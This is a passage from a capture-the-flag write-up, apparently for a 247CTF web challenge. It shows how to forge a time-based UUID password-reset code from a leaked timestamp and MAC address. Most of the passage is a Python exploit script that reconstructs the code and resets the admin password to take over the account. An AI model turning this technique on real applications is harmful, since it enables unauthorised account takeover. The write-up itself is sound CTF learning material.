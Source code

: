 All we need to do now is a get reqeust to `/get_flag` with the password we set for the admin.

<img src="images/image24.png" width="600">

I wrote a simple python script to automate this process. All you need to do is hardcode the clock sequence hex value e.g in the above example i would hardcode the value -> `92C6`

Plus notice on line 18 in my exploit `int(date[11:13]) +3` I add 3 to the hour value to make the timestamp UTC since my local time is GMT.

exploit.py
```
import requests
import datetime

url = "https://6ff30d4e8523c0e0.247ctf.com/"

statistics = requests.get(url=url+"statistics")

time = statistics.content.split("last_reset: ", 1)[1][:29]
HWaddr = statistics.content.split("HWaddr ", 1)[1][:17]
HWaddr = HWaddr.replace(':', '').lower()

date = time[:19]
decimal = time[20:]
value = 12219292800

clock_sequence = "92c6"

timestamp = datetime.datetime(int(date[:4]), int(date[5:7]), int(date[8:10]), int(date[11:13]) +3, int(date[14:16]), int(date[17:19])).strftime('%s')

plus = int(timestamp) + value

nano = str(plus) + str(decimal)
nano = nano[:-2]

hex1 = hex(int(nano))
hex1 = hex1[2:]

uuid = hex1[7:] + "-" + hex1[3:7] +"-"+ "1" + hex1[:3] + "-" + clock_sequence + "-" + HWaddr
print "Trying: " + uuid
update = requests.get(url=url+"update_password?reset_code=" +uuid+ "&password=saintbarber")
print update.content
```

---
#### sAINT_barber
